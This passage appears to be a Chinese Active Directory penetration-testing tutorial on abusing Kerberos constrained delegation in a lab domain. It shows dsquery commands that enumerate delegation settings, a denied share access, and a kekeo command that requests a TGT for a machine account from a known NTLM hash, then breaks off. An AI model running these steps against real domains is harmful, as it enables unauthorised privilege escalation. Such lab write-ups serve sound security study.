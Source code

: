     whencreated           : 1/12/2018 7:00:22 AM
    samaccountname        : testwin10
    countrycode           : 0
    objectcategory        : CN=Person,CN=Schema,CN=Configuration,DC=demo,DC=local
    adspath               : LDAP://CN=testwin10,CN=Users,DC=demo,DC=local
    usnchanged            : 33123
    lastlogoff            : 1/1/1601 8:00:00 AM
    lastlogontimestamp    : 1/12/2018 3:00:40 PM


或者 (使用dsquery获取机器的某些信息 包括useraccountcontrol,msds-allowedtodelegateto)

    C:\Users\Administrator>dsquery * -limit 0 -filter "(&(objectCategory=computer)(objectClass=computer))" -attr cn operatingSystem distinguishedName useraccountcontrol msds-allowedtodelegateto
      cn           operatingSystem                      distinguishedName                           		   useraccountcontrol    msds-allowedtodelegateto
      OWA2010DC    Windows Server 2008 R2 Datacenter    CN=OWA2010DC,OU=Domain Controllers,DC=demo,DC=local    532480
      OWA2010      Windows Server 2008 R2 Datacenter    CN=OWA2010,CN=Computers,DC=demo,DC=local               4096
      WIN10-NEW    Windows 10 Enterprise 2016 LTSB      CN=WIN10-NEW,CN=Computers,DC=demo,DC=local             16781312              cifs/OWA2010DC.demo.local/demo.local;cifs/OWA2010DC.demo.local;cifs/OWA2010DC;cifs/OWA2010DC.demo.local/DEMO;cifs/OWA2010DC/DEMO;


或者 (获取用戶某些信息 包括useraccountcontrol)

    C:\Users\Administrator>dsquery * -limit 0 -filter "(&(objectCategory=user)(objectClass=user))" -attr cn distinguishedName useraccountcontrol msds-allowedtodelegateto
      cn             distinguishedName 							useraccountcontrol		msds-allowedtodelegateto
      Administrator  CN=Administrator,CN=Users,DC=demo,DC=local 66048
      Guest          CN=Guest,CN=Users,DC=demo,DC=local 		66082
      krbtgt         CN=krbtgt,CN=Users,DC=demo,DC=local 		514
      testwin10      CN=testwin10,CN=Users,DC=demo,DC=local 	524800

测试主机为域内Windows 10系统，现在以普通域用户testwin10登录系统，IPC方式连接域服务器，访问域服务器的C盘目录，显示被拒绝，权限不够。

C:\Users\testwin10>whoami

    demo\testwin10

C:\Users\testwin10>dir \\owa2010dc.demo.local\c$

    Access is denied.
![testwin10](利用域委派获取域某些权限/testwin10.png)

现在已知域内机器账号的口令(计算机的机器账号密码默认是随机的，每30天轮换一次)，则可使用kekeo工具构造WIN10-NEW机器账号的票据。命令和执行结果如下

    tgt::ask /user:WIN10-NEW$ /domain:demo.local /NTLM:5b8303606d3478a49e47650272fea13b

已知域内主机账号(机器账号WIN10-NEW$)，使用kekeo工具构造该主机账号的TGT票据 ： 